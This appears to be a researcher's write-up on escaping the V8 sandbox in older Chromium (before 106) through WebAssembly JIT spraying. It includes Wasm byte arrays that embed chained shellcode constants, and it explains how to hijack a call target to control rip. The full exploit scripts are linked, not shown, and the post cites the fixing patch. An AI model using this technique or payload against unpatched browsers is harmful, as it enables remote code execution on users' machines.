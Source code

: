 # Escaping V8 Sandbox via WebAssembly JIT Spraying: Part 1 (Chromium < 106.0.5249.61)

In this post, I will explain how to escape V8 sandbox to get RCE via WebAssembly JIT spraying, while we have limited exploitation primitives like `addrof` and sandboxed AAR/AAW.

## Setup

- Ubuntu 22.04.5 LTS
- [cb5c1b8a1fd1eee214501ee06fdd4566886803c1](https://chromium.googlesource.com/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1) (Jul 26th, 2022)

Run [`setup.zsh`](./setup.zsh) in your working directory.
## Analysis

### WebAssembly jump table

```js
// flags: --allow-natives-syntax --shell

/*
(module
    (func (export "f1"))
    (func (export "f2"))
    (func (export "f3"))
    (func (export "f4"))
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x5, 0x4, 0x0, 0x0, 0x0, 0x0, 0x7, 0x15, 0x4, 0x2, 0x66, 0x31, 0x0, 0x0, 0x2, 0x66, 0x32, 0x0, 0x1, 0x2, 0x66, 0x33, 0x0, 0x2, 0x2, 0x66, 0x34, 0x0, 0x3, 0xa, 0xd, 0x4, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);
```

When a Wasm module is constructed, a memory region whose permission is set to RWX is allocated for compiling and executing Wasm functions.

![](img/1.png)

There is jump table at the very front of this region, which is responsible for deciding execution flow when Wasm function is called.

![](img/2.png)

Each `jmp` instruction in jump table is pointing the address of compiled code of each function in Wasm module.

The address of jump table is stored in [`WasmInstanceObject`](https://source.chromium.org/chromium/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1:src/wasm/wasm-objects.h;l=325), as [`jump_table_start`](https://source.chromium.org/chromium/v8/v8/+/cb5c1b8a1fd1eee214501ee06fdd4566886803c1:src/wasm/wasm-objects.h;l=360).

![](img/3.png)

![](img/4.png)

## Exploitation

### Implement exploitation primitives

We can implement sandboxed [`addrof`](./pwn.js#L7) primitive which returns address of arbitrary JavaScript object in V8 sandbox, using `Sandbox.getAddressOf`. Also, we can implement sandboxed [AAR](./pwn.js#L12)/[AAW](./pwn.js#L24) primitives which read and write value at arbitrary address in V8 sandbox, using `Sandbox.MemoryView`.

### JIT (Just-In-Time) spraying

```js
/*
(module
    (func (export "main")
        i64.const 0x4141414141414141
        i64.const 0x4242424242424242
        i64.const 0x4343434343434343
        return
    )
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0x26, 0x1, 0x24, 0x0, 0x42, 0xc1, 0x82, 0x85, 0x8a, 0x94, 0xa8, 0xd0, 0xa0, 0xc1, 0x0, 0x42, 0xc2, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0xa1, 0xc2, 0x0, 0x42, 0xc3, 0x86, 0x8d, 0x9a, 0xb4, 0xe8, 0xd0, 0xa1, 0xc3, 0x0, 0xf, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);

let wasm_instance = new WebAssembly.Instance(wasm_module);
% DebugPrint(wasm_instance);
```

![](img/5.png)

`main()` in `wasm_module` is a function which loads 64-bit constants. These constants are inserted to the compiled code as raw numbers. It means that we can insert arbitrary 8-byte constants to executable code region. If we move `rip` to the address of any constant, it will act like an 8-byte shellcode.

### Construct shellcode chain

With just 8-byte shellcode, we won't be able to do what we want to do. Instead, we can chain several short shellcodes using `jmp` instruction.

[`shellcode.py`](./shellcode.py)

![](img/6.png)

![](img/7.png)

If `main()` loads the same number twice, the second is not inserted to compiled code. Then, chain is broken and shellcode doesn't work. Therefore, we should slightly change the order of instructions or move the position of `nop` instructions to make sure that all numbers are different. In addition, we should consider that the distance between shellcodes is changed from the middle because the code which backs registers up to stack is inserted if all registers are in use.

[`pwn.wat`](./pwn.wat)

[`wasm.py`](./wasm.py)

```zsh
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
python3 wasm.py # output: [0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0xb1, 0x1, 0x1, 0xae, 0x1, 0x0, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xb2, 0x9b, 0x86, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0xdf, 0xe0, 0x9b, 0x96, 0x8c, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x82, 0x83, 0x87, 0x82, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x8a, 0xbc, 0x91, 0x96, 0xcd, 0xdb, 0xf5, 0x2, 0x42, 0xd0, 0x90, 0xa5, 0xbc, 0x8e, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0xd8, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0x90, 0x91, 0xc5, 0x81, 0x8c, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xea, 0x81, 0x83, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0x99, 0x85, 0xca, 0xd5, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x90, 0x91, 0x85, 0x86, 0x8e, 0x84, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x8a, 0x90, 0xca, 0xb4, 0x8a, 0xd4, 0xf5, 0x6, 0x42, 0xd0, 0x90, 0xa5, 0x84, 0x8e, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0xec, 0x9e, 0x85, 0x8a, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x92, 0x8a, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0xbb, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x8f, 0x8a, 0xc0, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0x7f, 0xf, 0xb]
```

### Hijack execution flow

When Wasm function is called, we can see following execution flow:

![](img/8.png)

![](img/9.png)

![](img/10.png)

`WasmInternalFunction` object is inside of V8 sandbox, so we can overwrite its call target using sandboxed AAW primitive and control `rip`.

[`pwn.js`](./pwn.js)

![](img/11.pn)

## Patch

> [[sandbox] Refactor and sandboxify WasmInternalFunction::call_target](https://chromium.googlesource.com/v8/v8/+/2eb73988a37a60520a0f8e0b1109edbcc0b91415) (Jul 26th, 2022)
> This CL refactors WasmInternalFunction to no longer inherit from Foreign but instead contain a (sandboxed) ExternalPointer field for the call target.